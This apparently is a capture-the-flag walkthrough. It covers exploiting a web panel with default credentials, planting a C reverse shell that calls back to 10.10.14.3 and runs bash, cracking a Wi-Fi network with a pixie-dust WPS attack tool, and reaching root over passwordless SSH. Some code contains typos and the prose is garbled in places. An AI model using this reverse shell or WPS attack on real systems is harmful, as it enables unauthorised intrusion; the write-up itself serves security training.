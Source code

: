 



## ENUMERATING
In the `nmap` we get 2 port one is 8080, and 22 looking at he port 8080 is `opencl` login using default credential in the web and go to hardware then open hardware add `revershell` on the functions
```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct soc kaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.3");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"bash", NULL};
    execvp("bash", argv);

    return 0;       
}
```
use `netcat` because we got sh stable it using `bash -c` and `python` the `user.txt` is in the `root` folder why because the real root is on other device using `ifconfig` we know that we got `wlan0` using `iwlist wlan0 scanning` we know that there one device but it has encryption searching for a while again and i got https://github.com/nikita-yfh/OneShot-C
this is a pixie dust it allow us to run pixie dust attack without monitor mode compile it using `makefile` then transfer it to `netcat` after that use this script 
```bash
sudo ./onefile -i wlan0 -b {TARGET MAC} -K
```
after that we got `ssid` and password of the device using `iwctl` is not working so we use a `systemd` file configuration 
## CONNECT TO DEVICE USING systemd
first we have make file named `/etc/wpa_supplicant/wpa_supplicant-wlan0.conf` then add this
```conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=0
update_config=1

network={
  ssid="<NETWORK_SSID>"
  psk="<NETWORK_PASSWORD>"
  key_mgmt=WPA-PSK
  proto=WPA2
  pairwise=CCMP TKIP
  group=CCMP TKIP
  scan_ssid=1
}
```
after that add a file called `/etc/systemd/network/25-wlan.network` add this
```network
[Match]
Name=wlan0

[Network]
DHCP=ipv4
```
then type this
```bash
systemctl enable wpa_supplicant@wlan0.service
systemctl restart systemd-networkd.services
systemctl restart wpa_supplicant@wlan0.service
```
after that type `ifconfig` in wlan0 we got `192.168.1.10` to access the device we use `ssh`
```sh
ssh 192.168.1.1
```
because the device doesn't have a password we suddenly got the root 